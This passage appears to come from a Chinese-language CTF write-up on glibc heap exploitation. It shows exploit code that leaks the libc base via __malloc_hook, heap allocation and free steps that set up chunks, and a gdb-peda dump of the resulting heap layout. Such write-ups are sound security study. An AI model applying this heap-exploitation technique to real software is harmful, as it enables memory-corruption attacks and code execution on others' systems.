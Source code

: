 ```
show(1)
s.recvuntil('content: ')
libc = u64(s.recv(6) + "\x00" * 2) - l.symbols['__malloc_hook'] - 0x68
log.info("libc : " + hex(libc))
```
### 第一个堆块情况分析点
这个主要是free掉两个堆块以便后面使用
```
alloc(0x30,'A' * 0x30)
alloc(0xf0,'A' * 0xf0)
alloc(0x70,'A' * 0x70)
alloc(0xf0,'A' * 0xf0)
alloc(0x30,'A' * 0x30)

pause()

free(1)
free(2)
```
```
gdb-peda$ x /100xg 0x55ca73bf02f0
0x55ca73bf02f0:	0x0000000000000000	0x0000000000000041
0x55ca73bf0300:	0x4141414141414141	0x4141414141414141
0x55ca73bf0310:	0x4141414141414141	0x4141414141414141
0x55ca73bf0320:	0x4141414141414141	0x4141414141414141
0x55ca73bf0330:	0x0000000000000000	0x0000000000000101
0x55ca73bf0340:	0x00007fc5e3f247b8	0x00007fc5e3f247b8
0x55ca73bf0350:	0x4141414141414141	0x4141414141414141
0x55ca73bf0360:	0x4141414141414141	0x4141414141414141
0x55ca73bf0370:	0x4141414141414141	0x4141414141414141
0x55ca73bf0380:	0x4141414141414141	0x4141414141414141
0x55ca73bf0390:	0x4141414141414141	0x4141414141414141
0x55ca73bf03a0:	0x4141414141414141	0x4141414141414141
0x55ca73bf03b0:	0x4141414141414141	0x4141414141414141
0x55ca73bf03c0:	0x4141414141414141	0x4141414141414141
0x55ca73bf03d0:	0x4141414141414141	0x4141414141414141
0x55ca73bf03e0:	0x4141414141414141	0x4141414141414141
0x55ca73bf03f0:	0x4141414141414141	0x4141414141414141
0x55ca73bf0400:	0x4141414141414141	0x4141414141414141
0x55ca73bf0410:	0x4141414141414141	0x4141414141414141
0x55ca73bf0420:	0x4141414141414141	0x4141414141414141
0x55ca73bf0430:	0x0000000000000100	0x0000000000000080
0x55ca73bf0440:	0x0000000000000000	0x4141414141414141
0x55ca73bf0450:	0x4141414141414141	0x4141414141414141
0x55ca73bf0460:	0x4141414141414141	0x4141414141414141
0x55ca73bf0470:	0x4141414141414141	0x4141414141414141
0x55ca73bf0480:	0x4141414141414141	0x4141414141414141
0x55ca73bf0490:	0x4141414141414141	0x4141414141414141
0x55ca73bf04a0:	0x4141414141414141	0x4141414141414141
0x55ca73bf04b0:	0x0000000000000000	0x0000000000000101
0x55ca73bf04c0:	0x4141414141414141	0x4141414141414141
0x55ca73bf04d0:	0x4141414141414141	0x4141414141414141
0x55ca73bf04e0:	0x4141414141414141	0x4141414141414141
0x55ca73bf04f0:	0x4141414141414141	0x4141414141414141
0x55ca73bf0500:	0x4141414141414141	0x4141414141414141
0x55ca73bf0510:	0x4141414141414141	0x4141414141414141
0x55ca73bf0520:	0x4141414141414141	0x4141414141414141
0x55ca73bf0530:	0x4141414141414141	0x4141414141414141
0x55ca73bf0540:	0x4141414141414141	0x4141414141414141
0x55ca73bf0550:	0x4141414141414141	0x4141414141414141
0x55ca73bf0560:	0x4141414141414141	0x4141414141414141
0x55ca73bf0570:	0x4141414141414141	0x4141414141414141
0x55ca73bf0580:	0x4141414141414141	0x4141414141414141
```